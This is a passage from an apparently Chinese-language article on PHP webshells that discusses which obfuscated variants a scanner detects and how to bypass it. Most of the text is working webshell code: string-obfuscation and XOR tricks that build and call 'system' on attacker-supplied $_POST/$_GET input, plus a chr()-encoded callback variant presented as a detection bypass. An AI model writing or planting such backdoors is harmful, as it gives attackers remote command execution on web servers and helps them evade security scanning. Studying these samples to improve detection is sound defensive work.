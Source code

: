 一、自定义函数混淆字符串类型：

```php
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$f = confusion(976534);         //sysTem（高危函数）
$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);
```

二、一维数组绕过：

```php
$f = substr_replace("systxx","em",4);         //system（高危函数）
$z = array($array = array('a'=>$f($_GET['aabyss'])));
var_dump($z);
```

三、异或 + 变换参数绕过：

```php
$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

等等，还有许多以 `变量(调用外部参数)` 来执行恶意命令的 WebShell 都能查杀，说明作者对参数变形和 PHP 参数调用的相关姿势烂熟于心啊哈哈

# 3# 查杀 ByPass

既然直接用变量作为函数执行不行的话，那可以曲线救国，比如：

```php
//ASCII 编码解密后为 system 高危函数
$f =  chr(114+1).chr(120+1).chr(116-1).chr(117-1).chr(100+1).chr(108+1);
call_user_func_array($f, array($_GET['aabyss']));
```

通过这个简单的样例，采用回调函数的手法，来执行对应的命令
